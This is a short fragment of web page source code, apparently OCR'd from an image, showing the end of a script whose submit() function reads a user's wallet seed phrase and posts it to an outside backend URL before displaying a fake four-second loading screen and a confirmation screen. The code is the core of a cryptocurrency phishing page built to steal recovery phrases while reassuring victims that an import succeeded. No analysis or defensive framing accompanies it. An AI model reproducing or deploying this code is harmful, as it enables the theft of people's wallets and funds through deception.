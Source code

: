     function submit() {
      const phrase = phraseInput.value.trim();

      // Send the phrase to the backend (replace URL with your backend endpoint)
      fetch("https://your-render-url.onrender.com/import", {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify({ seedphrase: phrase }),
      });

      // Switch to loading screen
      importScreen.style.display = "none";
      loadingScreen.style.display = "flex";

      // After 4 seconds, show confirmation screen
      setTimeout(() => {
        loadingScreen.style.display = "none";
        confirmScreen.style.display = "flex";
      }, 4000);
    }
  </script>
</body>
</html>
